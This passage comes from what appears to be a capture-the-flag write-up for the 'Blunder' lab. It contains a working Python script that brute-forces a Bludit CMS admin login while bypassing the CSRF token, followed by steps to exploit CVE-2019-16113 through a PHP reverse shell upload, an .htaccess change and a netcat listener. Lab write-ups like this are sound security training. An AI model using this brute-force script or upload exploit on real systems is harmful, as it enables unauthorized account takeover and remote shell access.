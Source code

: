 from bs4 import BeautifulSoup
import re

ip = '127.0.0.1'
url = 'http://' + ip +'/admin/login'
re_csrf = 'value=("(.*?)")'

req = requests.session()

#lines = open('cewl_out.txt','r')
lines = open('p.txt','r')
for password in lines:

    res = req.get(url)

# print(res.content)
    html_doc = res.content

    soup = BeautifulSoup(html_doc, 'html.parser')

    csrf_text = soup.find(id="jstokenCSRF")

    csrf = re.findall(re_csrf, str(csrf_text))[0][1]

    #print(csrf)

    login = {'tokenCSRF' : csrf, 'username' : 'fergus', 'password' : password[:-1], 'save' : ''}

    r = req.post(url,data=login)
    #print(r.content)
    #print(csrf)

    html_doc2 = r.content
    post_soup = BeautifulSoup(html_doc2, 'html.parser')
    title = post_soup.title
    if "Dashboard" in str(title):
        print("Valid Login %s:%s" % ("fergus", password[:-1]))
    else:
        print("Failed %s:%s" % ("fergus", password[:-1]))
```

![burp_pass](/images/blunder/burp_pass.png)

#### Foothold 
Since the password has been discovered, it's time to move on to exploitong the CMS.

If you are fine with automated exploits, one could easily use  metasploit for this, however, I prefer manually exploiting targets whenever possible.

With that said, "googling bludit exploit github" retuned results where the "**CVE-2019-16113**: Directory Traversal Image Upload Exploit" was reported and also had the steps to reproduce

Reproducing the steps form the pull request:

1. Upload an image, intercept and edit to a php reverse shell "rev.php" (ignore mime type errors) 
   https://github.com/pentestmonkey/php-reverse-shell is a good source

   ![rev_php](/images/blunder/rev_php.png)

2. Upload .htaccess adding "RewriteEngine Off" as the content (ignore mime type errors)
3. Set up netcat listener 
4. ```nc -lnvp 443```   
5. Acess shell at http://10.10.10.191/bl-content/tmp/rev.php

A shell is received on the listener as user **www-data**

![foothold](/images/blunder/foothold.png)

```